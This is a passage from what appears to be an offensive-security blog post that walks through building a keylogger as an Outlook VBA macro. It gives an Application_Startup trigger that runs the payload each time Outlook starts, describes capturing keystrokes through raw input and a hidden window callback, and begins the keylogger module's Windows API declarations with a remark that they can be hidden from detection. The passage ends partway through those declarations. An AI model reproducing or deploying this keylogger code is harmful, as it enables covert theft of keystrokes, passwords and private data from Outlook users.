 ```c
DWORD APIENTRY NtUserGetRawInputData 	( 	HRAWINPUT  	hRawInput,
		UINT  	uiCommand,
		LPVOID  	pData,
		PUINT  	pcbSize,
		UINT  	cbSizeHeader 
	) 	
```

Also we can see that it is exported by [win32u.dll](https://strontic.github.io/xcyclopedia/library/win32u.dll-7D649393F89A9DE3058162F8442130BC.html#win32udll), so our definition in VBA will be:

```vb
Private Declare PtrSafe Function NtUserGetRawInputData Lib "win32u" (ByVal hRawInput As LongPtr, ByVal uiCommand As LongLong, ByRef pData As Any, ByRef pcbSize As Long, ByVal cbSizeHeader As Long) As LongLong
```

Our approach will be the well-known technique of creating a window with a callback to snoop messages until we get a `WM_INPUT` and then use `NtUserGetRawInputData` to get the input data. To build the structures correctly (like `RAWKEYBOARD`) we can use **`offsetof`** as we described in our article [Shedding light on creating VBA macros](https://adepts.of0x.cc/vba-tools/), so we can check the size of each field and pick VBA types accordingly.

Our macro has to be split in two parts

1. The default module `ThisOutlookSession`
2. Another module created by us that we will rename to `Keylogger`.

In `ThisOutlookSession` we only place the trigger that will execute our payload when Outlook starts:

```vb
Sub Application_Startup()
   Keylogger.launcher
End Sub
```

We need to place the "real" payload inside another module to be allowed to use the operator **[AddressOf](https://docs.microsoft.com/es-es/office/vba/language/reference/user-interface-help/invalid-use-of-addressof-operator)**, because we use it to set the callback to our window class. The `Keylogger` module code (remember: **this is just a PoC** that does not handle errors/exceptions, the intention of this code is just to exemplify how to build one):

```vb
'This can be hidden using DispCallFunc trick
Private Declare PtrSafe Function RegisterClassEx Lib "user32" Alias "RegisterClassExA" (pcWndClassEx As WNDCLASSEX) As Integer
Private Declare PtrSafe Function CreateWindowEx Lib "user32" Alias "CreateWindowExA" (ByVal dwExStyle As Long, ByVal lpClassName As String, ByVal lpWindowName As String, ByVal dwStyle As Long, ByVal x As Long, ByVal y As Long, ByVal nWidth As Long, ByVal nHeight As Long, ByVal hWndParent As LongPtr, ByVal hMenu As LongPtr, ByVal hInstance As LongPtr, ByVal lpParam As LongPtr) As LongPtr
Private Declare PtrSafe Function DefWindowProc Lib "user32" Alias "DefWindowProcA" (ByVal hwnd As LongPtr, ByVal wMsg As Long, ByVal wParam As LongPtr, ByVal lParam As LongPtr) As LongPtr
Private Declare PtrSafe Function GetMessage Lib "user32" Alias "GetMessageA" (lpMsg As MSG, ByVal hwnd As LongPtr, ByVal wMsgFilterMin As Long, ByVal wMsgFilterMax As Long) As Long
Private Declare PtrSafe Function TranslateMessage Lib "user32" (lpMsg As MSG) As Long
Private Declare PtrSafe Function DispatchMessage Lib "user32" Alias "DispatchMessageA" (lpMsg As MSG) As LongPtr
Private Declare PtrSafe Function GetModuleHandle Lib "kernel32" Alias "GetModuleHandleA" (ByVal lpModuleName As String) As LongPtr
Private Declare PtrSafe Function RegisterRawInputDevices Lib "user32" (ByRef pRawInputDevices As RAWINPUTDEVICE, ByVal uiNumDevices As Integer, ByVal cbSize As Integer) As Boolean
Private Declare PtrSafe Function NtUserGetRawInputData Lib "win32u" (ByVal hRawInput As LongPtr, ByVal uiCommand As LongLong, ByRef pData As Any, ByRef pcbSize As Long, ByVal cbSizeHeader As Long) As LongLong
Private Declare PtrSafe Function GetProcessHeap Lib "kernel32" () As LongPtr
Private Declare PtrSafe Function HeapAlloc Lib "kernel32" (ByVal hHeap As LongPtr, ByVal dwFlags As Long, ByVal dwBytes As LongLong) As LongPtr
```